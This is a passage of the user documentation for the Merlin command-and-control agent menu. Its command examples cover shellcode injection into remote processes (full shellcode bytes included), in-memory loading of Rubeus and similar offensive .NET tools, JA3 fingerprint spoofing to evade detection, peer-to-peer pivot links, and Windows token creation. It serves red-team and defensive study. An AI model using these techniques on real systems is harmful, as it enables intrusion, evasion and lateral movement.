    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode remote 6560 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3
    [-]Created job PRumZQYBFR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job PRumZQYBFR
    [+]Shellcode executed successfully

.. _RtlCreateUserThread:

RtlCreateUserThread
^^^^^^^^^^^^^^^^^^^

.. note::
    USAGE: ``execute-shellcode rtlcreateuserthread PID SHELLCODE``

The ``rtlcreateuserthread`` method creates a thread in another process using the undocumented
`RtlCreateUserThread <http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html>`__
Windows API call.

Example:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode RtlCreateUserThread 6560 \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
    [-]Created job CCWrmdLIFQ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job CCWrmdLIFQ
    [+]Shellcode executed successfully

.. _UserAPC:

UserAPC
^^^^^^^

.. note::
    USAGE: ``execute-shellcode userapc PID SHELLCODE``

The ``userapc`` method creates a thread in another process using the
`QueueUserAPC <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc>`__
Windows API call.

.. note::
    This method is highly unstable and therefore was intentionally not added to the tab completion list of available methods. The current implementation requires the process to have more than 1 thread. All remaining threads will have a user-mode APC queued to execute the shellcode and could result in multiple instances of execution. This method frequently causes processes to crash. Additionally, the shellcode might not execute at all if none of the threads were in an alertable state. The ``svchost.exe`` process usually provides a little better choice, but still not guaranteed.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode userapc 4824 /home/rickastley/calc.bin
    [-]Created job NPQGRntaQX for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job NPQGRntaQX
    [+]Shellcode executed successfully

ifconfig
--------

.. note::
    USAGE: ``ifconfig``

The ``ifconfig`` command will enumerate all of the host's network interfaces and return their configuration.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Ethernet0
      MAC Address   00:0c:29:04:29:9d
      IP Address    192.168.1.132
      Subnet Mask   255.255.255.0
      Gateway       192.168.153.2
      DHCP          Enabled
      DHCP Server:  192.168.1.254

    Bluetooth Network Connection
      MAC Address   f4:02:28:35:ae:b6
      IP Address    0.0.0.0
      Subnet Mask   0.0.0.0
      Gateway       0.0.0.0
      DHCP          Enabled
      DHCP Server:


info
----

.. note::
    USAGE: ``info``

The ``info`` command is used to get information about a specific agent to include its configuration and environment.

* **ID** - The agent's unique identifier that is generated on execution
* **Alive** - Is the agent alive?
* **Status** - The agent's current communication status of either active, delayed, or dead
* **Platform** - The operating system and architecture the agent is running on
* **User Name** - The user name the agent is currently running as
* **User GUID** - The unique identifier for the user the agent is currently running as
* **Hostname** - The name of the compromised host where the agent is currently running
* **Process Name** - The name of the process the agent is currently running in
* **Process ID** - The numerical Process ID (PID) that the agent is currently running in
* **IP** - A list of interface IP addresses for where the agent is currently running
* **Initial Check In** - The date and time the agent first connected to the server
* **Last Check In** - The date and time the agent last connected to the server followed by the relative amount of time in parenthesis
* **Linked Agents** - Peer-to-peer child agents this agent is connected to
* **Groups** - Any server-side groups the agent is a member of
* **Note** - Any operator generated notes about the agent
* **Agent Version** - The version number of the running agent
* **Agent Build** - A hash of the git commit the agent was built from
* **Agent Wait Time** - The amount of time the agent waits, or sleeps, between checkins
* **Agent Wait Time Skew** - The amount of skew multiplied to the agent wait time
* **Agent Message Padding Max** - The maximum amount of random data appended to every message to/from the agent
* **Agent Max Retries** - The maximum amount of times an agent can fail to check in before it quits running
* **Agent Failed Check In** - The total number of failed check in attempts
* **Agent Kill Date** - The date the agent will quit running. ``1970-01-01T00:00:00Z`` signifies that the kill date is not set
* **Agent Communication Protocol** - The protocol the agent is currently communicating over
* **Agent JA3 TLS Client Signature** - The JA3 client signature. If empty then the default Merlin signature is being used

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» info

      ID                             | c1090dbc-f2f7-4d90-a241-86e0c0217786
      Alive                          | true
      Status                         | Active
      Platform                       | linux/amd64
      User Name                      | rastley
      User GUID                      | 1000
      Integrity Level                | 3
      Hostname                       | ubuntu
      Process Name                   | /tmp/go-build2984352876/b001/exe/main
      Process ID                     | 3802034
      IP                             | 127.0.0.1/8 ::1/128
                                     | 192.168.1.2/24
                                     | fe80::b7bb:3953:682e:cb7f/64
      Initial Check In               | 2023-10-23T14:43:57Z
      Last Check In                  | 2023-10-23T14:44:09Z (0:00:03
                                     | ago)
      Linked Agents                  | []
      Groups                         | [all]
      Note                           |
                                     |
      Agent Version                  | 1.5.0
      Agent Build                    | nonRelease
      Agent Wait Time                | 10s
      Agent Wait Time Skew           | 3000
      Agent Message Padding Max      | 10
      Agent Max Retries              | 7
      Agent Failed Check In          | 0
      Agent Kill Date                | 1970-01-01T00:00:00Z
      Agent Communication Protocol   | h2
      Agent JA3 TLS Client Signature |

interact
--------

.. note::
    USAGE: ``interact agentID``

The ``interact`` command takes one argument, the agent ID, and is used to switch agents and interact with a different, specified agent.

.. note::
    Use the built-in tab completion to cycle through and select the agent to interact with.

.. code-block:: text

    Merlin[agent][c22c435f-f7c4-445b-bcd4-0d4e020645af]» interact d07edfda-e119-4be2-a20f-918ab701fa3c
    Merlin[agent][d07edfda-e119-4be2-a20f-918ab701fa3c]»

.. _invoke-assembly:

invoke-assembly
---------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``invoke-assembly assemblyName [assemblyArguments]``

The ``invoke-assembly`` command will execute a .NET assembly that was previously loaded into the agent with the
load-assembly_ command. The first argument is the name of the assembly and all the remaining arguments are passed to
the assembly for execution. Use the list-assemblies_ command return a list of loaded assemblies.
The execute-assembly_ command is different because it uses injection to run the assembly in a child process.
This command runs the assembly in the current process without injection.

.. note::
    Only CLR v4 is currently supported which can be used to execute both v3.5 and v4 .NET assemblies

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» invoke-assembly Rubeus.exe klist
    [-] Created job GlPHKaRtmg for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job GlPHKaRtmg for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0


    Action: List Kerberos Tickets (Current User)

    [*] Current LUID    : 0x37913

ipconfig
--------

.. note::
    USAGE: ``ipconfig``

.. note::
    This is command is the same as the ifconfig command

The ``ipconfig`` command will enumerate all of the host's network interfaces and return their configuration.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Ethernet0
      MAC Address   00:0c:29:04:29:9d
      IP Address    192.168.1.132
      Subnet Mask   255.255.255.0
      Gateway       192.168.153.2
      DHCP          Enabled
      DHCP Server:  192.168.1.254

    Bluetooth Network Connection
      MAC Address   f4:02:28:35:ae:b6
      IP Address    0.0.0.0
      Subnet Mask   0.0.0.0
      Gateway       0.0.0.0
      DHCP          Enabled
      DHCP Server:

.. _ja3:

ja3
---

.. note::
    USAGE: ``ja3 signature``

`JA3 is a method for fingerprinting TLS clients on the wire <https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967>`_. Every TLS client has a unique signature depending on its configuration of the following TLS options: ``SSLVersion,Ciphers,Extensions,EllipticCurves,EllipticCurvePointFormats``.

The ``ja3`` option allows the agent to create a TLS client based on the provided JA3 hash signature. This is useful to evade detections based on a JA3 hash for a known tool (e.g.,. Merlin). `This <https://engineering.salesforce.com/gquic-protocol-analysis-and-fingerprinting-in-zeek-a4178855d75f>`_ article documents a JA3 fingerprint for Merlin. Known JA3 signatures can be downloaded from https://ja3er.com/

.. note::
    Make sure the input JA3 hash will enable communications with the Server. For example, if you leverage a JA3 hash that only supports SSLv2 and the server does not support that protocol, then they will not be able to communicate. The ``-ja3`` flag will override the the ``-proto`` flag and will cause the agent to use the protocol provided in the JA3 hash.

This example will create a TLS client with a JA3 hash of ``51a7ad14509fd614c7bb3a50c4982b8c`` that matches Java based malware such as Neutrino and Nuclear Exploit Kit (EK).

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ja3 769,49161-49171-47-49156-49166-51-50-49159-49169-5-49154-49164-49160-49170-10-49155-49165-22-19-4-255,10-11-0,23-1-3-19-21-6-7-9-10-24-11-12-25-13-14-15-16-17-2-18-4-5-20-8-22,0
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job DWXtIAdjYz for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

jobs
----

.. note::
    USAGE: ``jobs``

The ``jobs`` command will display a table of all active jobs assigned to the agent. The output will not include jobs that have already completed.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» jobs

          ID     | STATUS  |     TYPE     |       CREATED        |         SENT
    +------------+---------+--------------+----------------------+----------------------+
      whFGRWHudV | Sent    | NativeCmd    | 2020-12-18T11:45:07Z | 2020-12-18T11:45:38Z
      UxegCkyROR | Sent    | AgentControl | 2020-12-18T11:45:11Z | 2020-12-18T11:45:38Z
      YqhfUvxkqZ | Created | CmdPayload   | 2020-12-18T11:45:44Z |

.. _kill:

kill
----

.. note::
    USAGE: ``kill pid``

The ``kill`` command is used to force a running process to quit or exit by its numerical identifier. The Process ID (PID) must be provided.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell "ps aux|grep gnome-calculator"
    [-] Created job mBYVsnbYBS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job mBYVsnbYBS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] john      132905  0.3  0.6 890376 50268 ?        Sl   07:41   0:00 gnome-calculator

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» kill 132905
    [-] Created job rjXgPGnZYl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job rjXgPGnZYl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully killed pid 132905

.. _killdate:

killdate
--------

.. note::
    USAGE ``killdate epochDateTime``

Killdate is a UNIX timestamp that denotes a time the executable will not run after (if it is 0 it will not be used). Killdate is checked before the agent performs each checkin, including before the initial checkin.

Killdate can be set in the agent/agent.go file before compiling, in the New function instantiation of a new agent. One scenario for using the killdate feature is an agent is persisted as a service and you want it to stop functioning after a certain date, in case the target organization fails to remediate the malicious service. Using killdate here would stop the agent from functioning after a certain specified UNIX system time.

The Killdate can also be set or changed for running agents using the ``set killdate`` command from the agent menu. This will only modify the killdate for the running agent in memory and will not update the compiled binary file. http://unixtimestamp.50x.eu/ can be used to generate a UNIX timestamp.

A UNIX timestamp of `0` will read like `1970-01-01T00:00:00Z` in the agent info table.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» killdate 811123200
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

link
----

.. note::
    USAGE: ``link {add|list|remove|refresh|tcp|udp|smb} address``

The ``link`` command establishes a connection link with a peer-to-peer Agent.
The ``link`` has the following methods:

    * :ref:`link add`
    * :ref:`link list`
    * :ref:`link remove`
    * :ref:`link refresh`
    * :ref:`link SMB`
    * :ref:`link TCP`
    * :ref:`link UDP`

.. _link add:

add
^^^

.. note::
    USAGE: ``link add childAgentID``

The ``link add`` command manually adds a peer-to-peer child Agent link by UUID on the server.
This is useful if the Server was restarted and does not know about the peer-to-peer parent/child relationship.
This command does not add or create a peer-to-peer link on the Agent itself.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» link add afe6e797-f06f-449c-9f7a-2ba3df50c1b8
        [+] Successfully added child agent afe6e797-f06f-449c-9f7a-2ba3df50c1b8 link to parent agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _link list:

list
^^^^

.. note::
    USAGE: ``link list``

The ``link list`` command instructs the Agent to return a list of its peer-to-peer links.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» link list
    [-] Created job SisWtXgSke for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T12:06:22Z
    [-] Results of job SisWtXgSke for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T12:06:40Z
    [+] Peer-to-Peer Links (2)
        0. tcp-bind:c426dce8-ffd9-42cc-8393-8885b731cc3b9:127.0.0.1:7777
        1. udp-bind:2f915108-0dd2-40fe-bf8b-8503b840a6ee:127.0.0.1:7777

.. _link remove:

remove
^^^^^^

.. note::
    USAGE: ``link remove childAgentID``

The ``link remove`` command instructs the Agent to remove a child peer-to-peer Agent link.
This is useful if a child peer-to-peer Agent dies but did not gracefully close the connection with the parent.
This is more common with reverse peer-to-peer Agents.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» link remove c426dce8-ffd9-42cc-8393-8885b731cc3b
    [-] Created job JgjPdlbVTD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T12:23:08Z
    [-] Results of job JgjPdlbVTD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T12:23:26Z
    [+] Successfully removed P2P link for c426dce8-ffd9-42cc-8393-8885b731cc3b

.. _link refresh:

refresh
^^^^^^^

.. note::
    USAGE: ``link refresh``

The ``link refresh`` command instructs the Agent to update the server with a full list of child peer-to-peer Agents.
This is useful if the server is restarted and is not tracking the parent/child relationships or when a reverse Agent
has negative sleep.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» link refresh
    [-] Created job jSWPVmORJq for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T12:32:21Z
    [-] Results of job jSWPVmORJq for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T12:32:42Z
    [+] Created upstream delegate messages for:
    Peer-to-Peer Links (1)
    0. tcp-bind:c426dce8-ffd9-42cc-8393-8885b731cc3b:127.0.0.1:7777

.. _link SMB:

smb
^^^

.. note::
    USAGE: ``link smb address pipeName``

.. warning::
    The parent must be running on Windows because the Agent has not re-implement SMB

The ``link smb`` command links to a child peer-to-peer bind SMB Agent.
The ADDRESS can be a ``.`` for the localhost, an IP address, or a DNS hostname. 
The parent Agent must be running on a Windows host.

.. code-block::

    Merlin[agent][eb2a4636-cd93-4818-a844-87340d4a1c6a]» link smb . merlinpipe 
    [-] Created job ykIsVgNQDO for agent eb2a4636-cd93-4818-a844-87340d4a1c6a at 2023-07-22T13:09:57Z
    [-] Results of job ykIsVgNQDO for agent eb2a4636-cd93-4818-a844-87340d4a1c6a at 2023-07-22T13:10:15Z
    [+] Successfully connected to smb-bind Agent 206babc3-34fe-49fd-a018-9d4d1026bbec at \\\\.\\pipe\\merlinpipe
    [+] New authenticated agent checkin for 206babc3-34fe-49fd-a018-9d4d1026bbec at 2023-07-22T13:10:47Z

    Merlin[agent][1156a10c-9bc3-4d27-ad9f-5723be452cc6]» link smb 192.168.79.128 merlinpipe
    [-] Created job NsFduoHEGW for agent 1156a10c-9bc3-4d27-ad9f-5723be452cc6 at 2023-07-22T13:14:35Z
    [-] Results of job NsFduoHEGW for agent 1156a10c-9bc3-4d27-ad9f-5723be452cc6 at 2023-07-22T13:14:59Z
    [+] Successfully connected to smb-bind Agent 295b0dab-af06-480c-b43b-eb81be87aa0b at \\\\192.168.79.128\\pipe\\merlinpipe
    [+] New authenticated agent checkin for 295b0dab-af06-480c-b43b-eb81be87aa0b at 2023-07-22T13:15:34Z

.. _link TCP:

tcp
^^^

.. note::
    USAGE: ``link tcp interface:port``

The ``link tcp`` command links to a child peer-to-peer bind TCP Agent.

.. code-block::

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» link tcp 127.0.0.1:7777
    [-] Created job fpXxQBSMrN for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T11:53:32Z
    [-] Results of job fpXxQBSMrN for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T11:53:54Z
    [+] Successfully connected to tcp-bind Agent c426dce8-ffd9-42cc-8393-8885b731cc3b at 127.0.0.1:7777
    [+] New authenticated agent checkin for c426dce8-ffd9-42cc-8393-8885b731cc3b at 2023-07-22T11:54:29Z

.. _link UDP:

udp
^^^

.. note::
    USAGE: ``link udp interface:port``

The ``link udp`` command links to a child peer-to-peer bind UDP Agent.

.. code-block::

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» link udp 127.0.0.1:7777
    [-] Created job GflFUgVCwS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T12:03:47Z
    [-] Results of job GflFUgVCwS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-22T12:04:00Z
    [+] Successfully connected to udp-bind Agent 2f915108-0dd2-40fe-bf8b-8503b840a6ee at 127.0.0.1:7777
    [+] New authenticated agent checkin for 2f915108-0dd2-40fe-bf8b-8503b840a6ee at 2023-07-22T12:04:31Z

listener
--------

.. note::
    USAGE: ``listener {list|start|stop} [protocol] [address]``

The ``listener`` command starts, stops, or lists peer-to-peer listeners on the Agent.

    * :ref:`listener list`
    * :ref:`listener start`
    * :ref:`listener stop`

.. _listener list:

list
^^^^

.. note::
    USAGE: ``listener list``

The ``listener list`` command instruct the Agent to return a list of its peer-to-peer listeners.

.. note::
    The string ``[::]`` signifies all IP interfaces

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» listener list
    [-] Created job OebvmmBQPr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-23T16:44:33Z
    [-] Results of job OebvmmBQPr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-23T16:44:53Z
    [+] Peer-to-Peer Listeners (3):
    0. TCP listener on 127.0.0.1:7777
    1. UDP listener on [::]:8888
    2. SMB listener on \\\\.\\pipe\\merlinpipe

.. _listener start:

start
^^^^^

.. note::
    USAGE: ``listener start {smb|tcp|udp} {namedPipe|<interface:port>}``

The ``listener start`` command instructs the Agent to start a peer-to-peer listener for reverse connections.
Use '0.0.0.0' for all IPv4 interfaces. Only provide the name of the pipe for the SMB listener (e.g., merlinPipe).

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» listener start tcp 127.0.0.1:7777
    [-] Created job LkIuWumcOt for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-23T16:40:24Z
    [-] Results of job LkIuWumcOt for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-23T16:40:37Z
    [+] Successfully started TCP listener on 127.0.0.1:7777\n

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» listener start udp 0.0.0.0:8888
    [-] Created job suVecDPJhC for agent d942a9a5-a68e-42e7-8d26-71ac45e8345a at 2023-07-23T16:41:43Z
    [-] Results of job suVecDPJhC for agent d942a9a5-a68e-42e7-8d26-71ac45e8345a at 2023-07-23T16:41:56Z
    [+] Successfully started UDP listener on 0.0.0.0:8888

.. _listener stop:

stop
^^^^

.. note::
    USAGE: ``listener stop {smb|tcp|udp} {namedPipe|<interface:port>}``

The ``listener stop`` command instructs the Agent to stop a peer-to-peer listener.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» listener stop tcp 127.0.0.1:7777
    [-] Created job zlVVVBDCVS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-23T16:53:58Z
    [-] Results of job zlVVVBDCVS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-23T16:54:18Z
    [+] Successfully closed TCP listener on 127.0.0.1:7777

listeners
---------

.. note::
    USAGE: ``listeners``

The ``listeners`` command moves to the Listeners menu.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» listeners
	Merlin[listeners]»

list-assemblies
---------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``list-assemblies``

The ``list-assemblies`` command lists .NET assemblies that have been loaded into the agent's process with the load-assembly_ command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» list-assemblies
    [-] Created job NIflRstGrR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NIflRstGrR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Loaded Assemblies:
    seatbelt.exe
    rubeus.exe
    sharpdpapi.exe
    sharpup.exe
    Hagrid

load-assembly
-------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``load-assembly filePath [alias]``

The ``load-assembly`` command loads a .NET assembly into the agent's process. Once the assembly is loaded, it can be executed
multiple times with the invoke-assembly_ command. The .NET assembly is only sent across the wire one time.
An option third argument can be provided to reference the assembly as any other name when executed with the
invoke-assembly_ command.

.. note::
    Only CLR v4 is currently supported which can be used to execute both v3.5 and v4 .NET assemblies

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /root/Rubeus.exe
    [-] Created job iQOkWgGqkJ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job iQOkWgGqkJ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] successfully loaded rubeus.exe into the default AppDomain

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /root/Rubeus.exe Hagrid
    [-] Created job YrPdQkcuTG for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job YrPdQkcuTG for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] successfully loaded Hagrid into the default AppDomain

.. _loadclr:

load-clr
--------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``load-clr VERSION``

The ``load-clr`` command loads the specified version of the .NET CLR into the current process.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-clr v4.0
    [-] Created job zvxxrESztw for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-08-11T19:11:45Z
    [-] Results of job zvxxrESztw for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-08-11T19:12:08Z
    [+]
    The v4.0 .NET CLR runtime was successfully loaded

.. _ls:

ls
--

.. note::
    USAGE: ``ls [filePath]``

The ``ls`` command is used to list a directory's contents using native Go functions within Merlin.
This command will not execute the ``ls`` or ``dir`` binary programs found on their associated host operating systems.
If a directory is not specified, Merlin will list the contents of the current working directory.
When specifying a Windows path, you must escape the backslash (e.g.,. `C:\\Temp`).
Wrap file paths containing a space in quotations. Alternatively, Linux file paths with a space can be called without
quotes by escaping the space (e.g.,. ``/root/some\ folder/``). Relative paths can be used (e.g.,. ``./../`` or
``downloads\\Merlin``) and they are resolved to their absolute path.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ls /var
    [-]Created job eNJKIiLXXH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job eNJKIiLXXH
    Directory listing for: /var

    drwxr-xr-x      2019-02-06 00:05:17     4096    backups
    drwxr-xr-x      2018-12-24 14:40:14     4096    cache
    dgtrwxrwxrwx    2019-02-06 00:05:16     4096    crash
    drwxr-xr-x      2019-01-17 21:24:30     4096    lib
    dgrwxrwxr-x     2018-04-24 04:34:22     4096    local
    Lrwxrwxrwx      2018-11-07 21:33:01     9       lock
    drwxrwxr-x      2019-02-06 00:05:39     4096    log
    dgrwxrwxr-x     2018-07-24 23:03:56     4096    mail
    dgtrwxrwxrwx    2018-07-24 23:09:50     4096    metrics
    drwxr-xr-x      2018-07-24 23:03:56     4096    opt
    Lrwxrwxrwx      2018-11-07 21:33:01     4       run
    drwxr-xr-x      2018-11-07 21:45:43     4096    snap
    drwxr-xr-x      2018-11-07 21:38:04     4096    spool
    dtrwxrwxrwx     2019-02-06 00:05:38     4096    tmp

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ls "C:\\Program Files (x86)\\"
    [-]Created job ggQPFQhTrC for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job ggQPFQhTrC
    Directory listing for: C:\Program Files (x86)

    drwxrwxrwx      2018-09-15 00:42:33     0       Common Files
    drwxrwxrwx      2018-09-15 02:08:27     0       Internet Explorer
    drwxrwxrwx      2018-09-15 00:33:50     0       Microsoft.NET
    drwxrwxrwx      2018-09-15 02:07:46     0       Windows Defender
    drwxrwxrwx      2018-12-27 12:42:42     0       Windows Kits
    drwxrwxrwx      2018-09-15 00:33:53     0       Windows Mail
    drwxrwxrwx      2018-12-16 13:15:58     0       Windows Media Player
    drwxrwxrwx      2018-09-15 02:10:06     0       Windows Multimedia Platform
    drwxrwxrwx      2019-01-10 08:18:11     0       Windows Photo Viewer
    drwxrwxrwx      2018-09-15 02:10:06     0       Windows Portable Devices
    drwxrwxrwx      2018-09-15 00:33:50     0       Windows Sidebar
    drwxrwxrwx      2018-09-15 00:33:50     0       WindowsPowerShell
    -rw-rw-rw-      2018-09-15 00:31:34     174     desktop.ini
    drwxrwxrwx      2018-09-15 00:42:33     0       windows nt

main
----

.. note::
    USAGE: ``main``

The ``main`` command is used to leave the Agent menu and return back to the :doc:`main`. It is an alias for the ``back`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» main
    Merlin»

make_token
----------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``make_token DOMAIN\\USERNAME PASSWORD``

The ``make_token`` command creates a new Windows access token
This command is an alias for the :ref:`token make` command.\n" +

Tokens are created with the Windows LogonUserW API call. The token is created with a type 9 - NewCredentials logon type.
This is the equivalent of using runas.exe /netonly. Commands such as 'token whoami' will show the username for the
process and not the created token due to the logon type, but will reflect the new Logon ID

.. warning::
		Type 9 - NewCredentials tokens only work for NETWORK authenticated activities

References:

* https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types

.. _maxretry:

maxretry
--------

.. note::
    USAGE: ``maxretry number``

The ``maxretry`` control type is used to change the _maximum_ number of failed login an agent will allow before the agent quits. For the sake of this conversation, a login means establishing contact with a Merlin Server and receiving no errors. The default is 7. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» maxretry 50
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
